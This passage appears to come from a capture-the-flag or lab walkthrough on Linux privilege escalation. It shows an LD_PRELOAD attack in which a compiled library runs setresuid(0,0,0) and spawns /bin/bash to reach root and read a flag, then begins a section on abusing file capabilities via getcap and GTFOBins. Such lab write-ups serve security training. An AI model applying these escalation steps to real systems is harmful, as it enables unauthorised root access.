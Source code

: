 `james@attackdefense:~/.lib$ gcc -o libgreetings.so lib.c -shared` 

* the '-shared' is to compile it as a shared library file \(.so\) 

Load the file with the new library: 

`james@attackdefense:~/.lib$ LD_PRELOAD=/home/james/.lib/libgreetings.so /usr/local/bin/welcome` 

Run it: 

```text
lib.c:6:2: warning: implicit declaration of function 'setresuid'; did you mean 'setreuid'? [-Wimplicit-function-declaration] 
  setresuid(0, 0, 0); 
  ^~~~~~~~~ 
  setreuid 
lib.c:7:2: warning: implicit declaration of function 'system' [-Wimplicit-function-declaration] 
  system("/bin/bash"); 
  ^~~~~~ 
james@attackdefense:~/.lib$ ls -l 
total 12 
-rw-r--r-- 1 james james  130 Oct 30 14:51 lib.c 
-rwxr-xr-x 1 james james 7960 Oct 30 14:54 libgreetings.so 
james@attackdefense:~/.lib$ /usr/local/bin/welcome
Enter your name 
id 
root@attackdefense:~/.lib# ls 
lib.c  libgreetings.so 
root@attackdefense:~/.lib# cd /home/root 
bash: cd: /home/root: No such file or directory 
root@attackdefense:~/.lib# cd /root/ 
root@attackdefense:/root# ls 
flag 
root@attackdefense:/root# cat flag 
521d81adc77627782df4bc545ec604de 
root@attackdefense:/root# 
```

## Abuse Capabilities utility

Capabilities are a little obscure but similar in principle to SUID. Linux’s thread/process privilege checking is based on capabilities: flags to the thread that indicate what kind of additional privileges they’re allowed to use. By default, root has all of them. 

Capabilities are useful when you want to restrict your own processes after performing privileged operations \(e.g. after setting up chroot and binding to a socket\). However, they can be exploited by passing them malicious commands or arguments which are then run as root. 

\*Used with GTFOBins 

Find out what capabilities are Enabled 

`[user@box ~]$ getcap -r / 2>/dev/null` 

You will get output like the following… 
